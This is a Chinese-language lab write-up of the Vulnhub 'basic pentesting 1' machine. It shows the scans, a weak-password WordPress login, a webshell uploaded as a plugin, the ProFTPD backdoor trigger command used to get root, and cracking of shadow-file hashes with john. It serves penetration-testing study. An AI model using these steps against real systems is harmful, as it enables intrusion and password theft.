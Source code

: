 ```yaml
---
title: Vulnhub basic pentesting 1 Writeup
date: 2024-08-1
categories: [資安]
tags: [writeup]

description: Vulnhub basic pentesting 1 過程最終取得Root

published: true #不顯示此文章
---
```



## Before

- 攻擊者ip 192.168.18.136
- 靶機ip 192.168.18.139

-------
## 服務掃描

對靶機`192.168.18.139`進行服務掃描:
```bash
nmap -sV -sT -p- 192.168.18.139
```

掃描結果:
```text
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c 
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

* ProFTPD 1.3.3c      CVE-2015-3306   
* OpenSSH 7.2p2       CVE-2016-0777,CVE-2016-0778
* Apache httpd 2.4.18 CVE-2016-5387

一開始沒有去注意到這麼多CVE就直接去打網頁了

----
## 目錄掃描 

使用 `dirsearch` 工具進行目錄掃描：
```bash
dirsearch -u "192.168.18.139"
```

掃描結果:
```text
[14:24:47] 200 -  177B  - /index.html
[14:24:53] 301 -  317B  - /secret  ->  http://192.168.18.139/secret/
[14:24:53] 200 -   52KB - /secret/
[14:24:54] 403 -  303B  - /server-status/
[14:24:54] 403 -  302B  - /server-status
```

在 `http://192.168.18.139/secret/` 發現了域名 `http://vtcsec/` 和管理員登入介面 `http://vtcsec/secret/wp-login.php`

起手式`admin:admin`(弱密碼) 成功登入

---------
## 利用WP plugin

製作假`plugin`裡面含`webshell`上傳到伺服器

將`WP plugin`所需的標頭加入到`webshell`裡面:
```text
/*
Plugin Name: wordprees webshell
Plugin URI: IDK
Description: this plugin is websehll 
Version: 1.0
Author: hacker
Author URI: IDK
License: GPL2
*/
```

訪問 `http://vtcsec/secret/wp-admin/plugins.php?plugin=wp_webshell%2Fwp_webshell.php` 讓`webshell`執行 成功`RCE`

---------------------------
## 交互式Bash Shell

利用`webshell`送出一個以下指令取得交互式的`Bash shell`:
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

-------
## 後續操作

在`/home/marlinspike`找路徑看到才發現`ProFTPD 1.3.3c`的後門漏洞:
```text
046e85f6fe460de94fd46198feef4d07-backdoored_proftpd-1.3.3c.tar.gz
046e85f6fe460de94fd46198feef4d07-backdoored_proftpd-1.3.3c.tar.gz.bak
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backdoored_proftpd-1.3.3c
examples.desktop
latest.tar.gz
proftpd-1.3.3c
proftpd-1.3.3c.tar.bz2
proftpd-1.3.3c.tar.bz2.bak
wordpress
```

發現 `ProFTPD 1.3.3c` 存在後門漏洞 `CVE-2015-3306`，特定指令可獲得 root 權限：
```bash
ps aux | grep proftpd

nc 192.168.18.139 21

HELP ACIDBITCHEZ
```
![getrootimage](./images/getroot.png)
> 可以使用metasoloit但是我還沒學 哈哈哈哈哈哈 

---------
### 密碼爆破

- **準備文件**
    - **`passwd.txt`**: 這個文件包含了 **`/etc/passwd`** 文件的內容，列出了系統中的用戶和基本信息，但不包括密碼哈希。
    - **`shadow.txt`**: 這個文件包含了 **`/etc/shadow`** 文件的內容，存儲了加密的密碼哈希。
- **合併文件**
    
    - 使用 **`unshadow`** 工具來將 **`passwd.txt`** 和 **`shadow.txt`** 合併成一個文件 **`combined.txt`**，這個文件包含了用戶名和加密的密碼哈希，格式適合於 **`john`** 工具進行破解：
    
        ```bash
        sudo unshadow passwd.txt shadow.txt > combined.txt
        ```
- **破解密碼**
    
    - 使用 **`john`** 工具來對 **`combined.txt`** 文件中的密碼哈希進行破解：
        
		```bash
	    john combined.txt
        ```
        
    - **`john`** 會嘗試使用字典攻擊和其他破解技術來解密密碼哈希。
- **顯示結果**
    
    - 破解完成後，使用 **`john`** 的 **`--show`** 選項來顯示破解得到的原始密碼：
    
        ```bash
		john --show combined.txt
        ```

    - 會顯示出密碼（**`********`**）。

------------------------

